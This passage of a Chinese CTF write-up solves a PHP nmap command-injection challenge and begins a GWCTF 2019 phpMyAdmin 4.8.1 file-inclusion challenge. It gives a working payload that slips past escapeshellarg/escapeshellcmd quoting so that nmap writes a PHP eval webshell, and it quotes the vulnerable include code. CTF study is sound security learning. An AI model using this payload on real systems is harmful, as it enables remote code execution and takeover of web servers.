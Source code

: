 往下看代码

```
echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
```

这里肯定就是利用点了。

但是前面的代码函数escapeshellarg()会把我们的输入包含进一个双引号内使其变为字符串

namp 可以写木马，那么我们要做的，让nmap执行那个命令。但是
这两个函数。会把我们的命令给放道单引号里，
'\<\?php eval\(\$_POST\[\"a\"\]\)\;\?\> -oG 1.php'最后的语句，就变成了：
nmap -T5 -sT -Pn --host-timeout 2 -F '\<\?php eval\(\$_POST\[\"a\"\]\)\;\?\> -oG 1.php' 我们的命令，被当成了字符串，而不是一条命令，那么我们就要想办法，闭合单引号。
但是，经过测试，在输入的东西后面加上单引号，就会使所有单引号闭合从而逃逸出来

```
$host = $_GET['host'];
    echo $host."<br>";
    $host = escapeshellarg($host);
    echo $host."<br>";
    $host = escapeshellcmd($host);
    echo $host."<br>";
```

所以payload可以写成'<?php eval($_POST["a"]);?> -oG 1.php '

# [GWCTF 2019] web题-我有一个数据库

扫描，有个phpadmin

直接考的是cve了

 百度一下发现phpmyadmin4.8.1版本文件包含漏洞，问题出在index.php的target参数位置

```
// If we have a valid target, let's load that script instead
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
```

$target_blacklist，target参数黑名单

```
$target_blacklist = array (
    'import.php', 'export.php'
);
```
